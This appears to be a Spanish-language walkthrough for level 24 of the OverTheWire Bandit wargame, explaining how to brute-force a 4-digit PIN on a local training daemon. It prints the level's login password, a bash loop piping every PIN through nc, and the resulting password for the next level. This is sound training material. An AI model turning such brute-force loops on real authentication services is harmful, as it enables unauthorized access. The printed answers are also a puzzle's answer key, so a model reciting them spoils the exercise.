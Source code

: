 ## Objetivo
Deberemos obtener la contraseña para el siguiente nivel (`bandit25`) al proporcionar al demonio que escucha en el puerto 30002 la contraseña actual de `bandit24` junto con un código PIN numérico de 4 dígitos. Dado que no hay forma de recuperar el código PIN de otra manera, será necesario realizar un ataque de fuerza bruta probando todas las combinaciones posibles (de 0000 a 9999).

## Datos de Acceso al Nivel
- **comando:** ssh
- **host:** bandit.labs.overthewire.org
- **puerto:** 2220
- **usuario:** bandit24
- **contraseña:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Solución
```bash
for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 | grep -v 'Wrong'
```
```text
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```

## Notas Adicionales


## Referencias